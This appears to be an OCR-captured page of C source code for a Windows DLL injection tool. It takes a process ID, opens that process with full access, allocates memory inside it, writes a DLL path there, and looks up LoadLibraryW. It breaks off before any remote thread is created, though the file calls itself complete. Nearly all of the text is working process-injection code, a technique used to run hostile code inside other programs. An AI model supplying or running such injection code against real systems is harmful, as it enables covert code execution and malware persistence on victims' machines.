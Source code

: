 The entire file being:
```c
#include <stdio.h>
#include <Windows.h>

const char* k = "[+]";
const char* e = "[-]";
const char* i = "[*]";

DWORD PID, TID = NULL;
LPVOID rBuffer = NULL;
HMODULE hKernel32 = NULL;
HANDLE hProcess, hThread = NULL;

wchar_t dllPath[MAX_PATH] = L"C:\\Users\\eljay\\source\\repos\\dllinjection\\mydll.dll";
size_t dllPathSize = sizeof(dllPath);

int main(int argc, char* argv[]) {

	if (argc < 2) {
		printf("%s usage: %s <PID>", e, argv[0]);
		return EXIT_FAILURE;
	}

	PID = atoi(argv[1]);

	printf("%s trying to get a handle to the process {%ld)\n", i, PID);

	hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID);

	if (hProcess == NULL) {

		printf("%s failed to get a handle to the process, error: %ld", e, GetLastError());
		return EXIT_FAILURE;
	}

	printf("%s got a handle to the process (%ld)\n--0x%p\n", k, PID, hProcess);

	rBuffer = VirtualAllocEx(hProcess, NULL, dllPathSize, (MEM_COMMIT | MEM_RESERVE), PAGE_READWRITE);
	printf("%s allocated buffer to process memory with PAGE_READWRITE permissions\n", k);

	if (rBuffer== NULL) {

		printf("%s could not create rBuffer, error: %ld", e, GetLastError());
		return EXIT_FAILURE;
	}

	WriteProcessMemory(hProcess, rBuffer, dllPath, dllPathSize, NULL);
	printf("%s wrote [%S] to process memory\n", k, dllPath);

	hKernel32 = GetModuleHandleW(L"Kernel32");

	if (hKernel32 == NULL) {
		printf("%s failed to get a handle to Kernel32.dll, error: %ld", e, GetLastError());
		CloseHandle(hProcess);
		return EXIT_FAILURE;
	}

	printf("%s got a handle to Kernel32.dll\n--0x%p\n", k, hKernel32);

	LPTHREAD_START_ROUTINE startThis = (LPTHREAD_START_ROUTINE)GetProcAddress(hKernel32, "LoadLibraryW");
	printf("%s got the address of LoadLibraryW()\n--0x%p\n", k, startThis);
```